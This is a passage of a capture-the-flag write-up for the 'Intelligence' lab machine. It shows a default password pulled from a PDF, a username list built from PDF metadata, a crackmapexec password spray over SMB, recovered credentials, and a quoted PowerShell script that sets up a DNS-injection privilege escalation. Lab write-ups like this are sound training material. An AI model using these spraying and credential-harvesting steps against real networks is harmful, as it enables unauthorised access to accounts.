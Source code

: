 #### PDF File Enumeration

I got the default password from the PDF file 
 
{{< figure src="images/3.png">}}

2020-06-04-upload.pdf
 
 ```Md
 New Account Guide
Welcome to Intelligence Corp!
Please login using your username and the default password of:
NewIntelligenceCorpUser9876
After logging in please change your password as soon as possible.
```


I made a users wordlist from exif of the pdf

`exiftool * | grep Creator > users`

### FootHold

#### Finding correct Credentials

I ran the following command
`crackmapexec smb intelligence.htb -u users -p "NewIntelligenceCorpUser9876" `

{{< figure src="images/4.png">}}

I got the above as the credentials 
`intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876`

{{< figure src="images/5.png">}}


Now let's See whats in `Users` Shares

{{< figure src="images/6.png">}}

Inside `Tiffany.Molina` folder in Desktop we find `user.txt`. **Got our flag!**


### Privilege Escalation

#### Injecting DNS Record Using LDAP

As we read the `downdetector.ps1` it checks with default creds if the site is alive/dead.

```Ps1
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```
		
